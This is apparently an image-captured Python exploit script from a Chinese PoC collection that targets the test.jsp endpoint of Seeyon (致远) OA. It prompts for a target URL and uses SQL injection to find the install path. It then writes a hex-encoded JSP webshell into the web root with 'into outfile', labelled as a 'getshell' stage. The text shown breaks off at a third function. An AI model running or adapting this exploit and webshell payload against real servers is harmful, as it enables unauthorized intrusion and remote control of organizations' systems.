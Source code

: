 ```python
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

getshell：

```python
import requests
import sys
import random
import re
import base64
import time
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA                                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        if '序号' in response.text and "@@basedir" in response.text and response.status_code == 200:
            OA_dir = re.findall(r'>(.*)\\UFseeyon\\', response.text)[0]
            OA_dir = OA_dir[:2] + '/' + OA_dir[3:]
            print("\033[32m[o] 目标 {}存在漏洞, 安装路径为:{} \033[0m".format(target_url, OA_dir))
            webshell_name = "peiqi_upload{}.jsp".format(random.randint(1,999))
            OA_dir = OA_dir + "/UFseeyon/OA/tomcat/webapps/yyoa/{}".format(webshell_name)
            POC_2(target_url, OA_dir, webshell_name)
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

def POC_2(target_url, OA_dir, webshell_name):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27{}%27".format(OA_dir)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        if 'already' in response.text and  response.status_code == 200:
            print("\033[32m[o] 文件写入木马上传失败，目标已存在相同文件，请重新运行\033[0m")
        elif "No Data" in response.text and  response.status_code == 200:
            print("\033[32m[o] 文件写入木马上传成功，上传路径为 {}\033[0m".format(OA_dir))
            POC_3(target_url, webshell_name)
        else:
            print("\033[31m[x] 目标 {} 木马上传失败 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

def POC_3(target_url, webshell_name):
    rebe_webshell = "peiqiwebshell{}.jsp".format(random.randint(1,999))
```